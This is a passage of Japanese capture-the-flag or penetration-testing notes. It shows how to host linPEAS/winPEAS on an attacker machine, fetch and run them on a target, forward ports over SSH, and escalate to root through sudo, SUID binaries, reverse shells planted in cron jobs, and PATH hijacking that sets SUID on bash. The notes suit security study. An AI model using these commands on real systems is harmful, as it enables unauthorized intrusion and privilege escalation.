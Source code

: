 ```
# ローカルマシン上
wget https://github.com/carlospolop/PEASS-ng/releases/download/20220918/linpeas.sh
python3 -m http.server 3000
```

```
# リモートマシン上
cd /tmp
wget http://$LOCAL_IP:3000/linpeas.sh
./linpes.sh | tee linpeas.log
```

Windowsの場合。

```
# ローカルマシン上
wget https://github.com/carlospolop/PEASS-ng/releases/download/20220918/winPEASx64.exe
python3 -m http.server 3000
``` 

```
# リモートマシン上
cd C:\Windows\Temp
Invoke-WebRequest -Uri http://$LOCAL_IP:3000/winPEASx64.exe -OutFile winPEASx64.exe
.\winPEASx64.exe
```

### ポートフォワード
`netstat -lvnp`でサーバーが待ち受けているポート番号一覧が取得できる。結果を見ると、たまにポートスキャナで検知できなかったものがある。このとき普通にローカルマシンからアクセスしようとしても弾かれてしまうのでポートフォワーディングを実行してアクセスできるようにする。

```
# REMOTE_MACHINE_IPの8080ポートをlocalhostの3000番にポートフォワードする場合
ssh -i keyfile -L 8080:localhost:3000 -N -f user@$REMOTE_MACHINE_IP
```
[Tunneling and Port Forwarding](https://book.hacktricks.xyz/generic-methodologies-and-resources/tunneling-and-port-forwarding?q=port+foward)

- `-i` ... 鍵ファイルの指定
- `-L` ... ポートフォワードを行う
- `-N` ... リモートコマンドを実行しない
- `-f` ... コマンドを実行する前に`ssh`をバックグラウンドにする

### 権限昇格
だいたい[Linux - Privilege Escalation](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md)に書いてある。

よく使うのは以下。

- `sudo -l`を使って`sudo`で実行できるものを使う
    - 見つかったら[GTFOBins](https://gtfobins.github.io/)で確認
    - `-l`オプションの表示が分かりづらければ`-ll`オプションを使う
    - まれにrootで実行するのを禁止しているものがあるが`-u`オプションをつければ他ユーザーで実行できる
    - リバースシェル起動時だとパスワードが分からないのでこの手段は使えないことが多い
- SUIDビットが立ったバイナリを見つけて実行する
    - 見つかったら[GTFOBins](https://gtfobins.github.io/)で確認
- `cron`のジョブのうち、自分以外のユーザーで実行をされているものを書き換える
    - 大抵ジョブのファイルが読み書き可能なのでそこにリバースシェルを仕込んで別ユーザーやrootでシェルを獲得できる
    - ジョブで実行されるファイルがバイナリの場合はリバースシェルを起動する同名のファイルを作って差し替える
- 環境変数の上書き
    1. rootで実行するバイナリやシェルスクリプトが`cp a.txt /b`みたいに絶対パスを指定せずに実行しているか確認する
    2. `chmod +s /bin/bash`と書いた`cp`という同名のファイルを用意、環境変数を上書きして自分が作った`cp`を実行させるようにする
    3. 元のファイルを実行後、`/bin/bash -p`としてrootを得る
- SSHの秘密鍵が残っているのでそれを利用して別ユーザーでログインする
- `id`コマンドで自分が別グループに所属している場合、そのグループがアクセスまたは実行できるファイルを探す。
- Webページが主題のroomならソースをチェックする。`/var/www`以下にパスワードなどのヒントが落ちていることが多い
    - CMSなら設定ファイルを確認する。wordpressなら`wp-config.php`
